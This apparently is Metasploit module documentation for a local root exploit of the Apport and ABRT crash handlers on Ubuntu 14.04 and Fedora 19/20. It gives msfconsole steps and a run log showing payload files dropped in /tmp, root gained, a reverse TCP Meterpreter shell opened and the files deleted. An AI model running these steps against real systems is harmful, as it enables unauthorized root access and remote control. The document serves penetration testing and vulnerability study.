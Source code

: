 ## Description

  This module attempts to gain root privileges on Ubuntu and Fedora systems by invoking the default coredump handler inside a namespace ("container").


## Vulnerable Application

  Apport versions 2.13 through 2.17.x before 2.17.1 on Ubuntu are vulnerable, due to a feature which allows forwarding reports to a container's Apport by changing the root directory before loading the crash report, causing `usr/share/apport/apport` within the crashed task's directory to be executed.

  Similarly, Fedora is vulnerable when the kernel crash handler is configured to change root directory before executing ABRT, causing `usr/libexec/abrt-hook-ccpp` within the crashed task's directory to be executed.

  In both instances, the crash handler does not drop privileges, resulting in code execution as root.

  * Apport 2.14.1 on Ubuntu 14.04.1 LTS x86 and x86_64
  * ABRT on Fedora 19 and 20 x86_64.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/apport_abrt_chroot_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/apport_abrt_chroot_priv_esc
  msf exploit(linux/local/apport_abrt_chroot_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/apport_abrt_chroot_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Writing '/tmp/.drY6cJZ' (887316 bytes) ...
  [*] Writing '/tmp/.LtJvrgjXq' (207 bytes) ...
  [*] Launching exploit...
  [+] Upgraded session to root privileges ('uid=0(root) gid=1000(user) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),1000(user)')
  [*] Sending stage (857352 bytes) to 172.16.191.252
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.252:35552) at 2018-01-11 09:58:25 -0500
  [+] Deleted /tmp/.drY6cJZ
  [+] Deleted /tmp/.LtJvrgjXq

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : 172.16.191.252
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

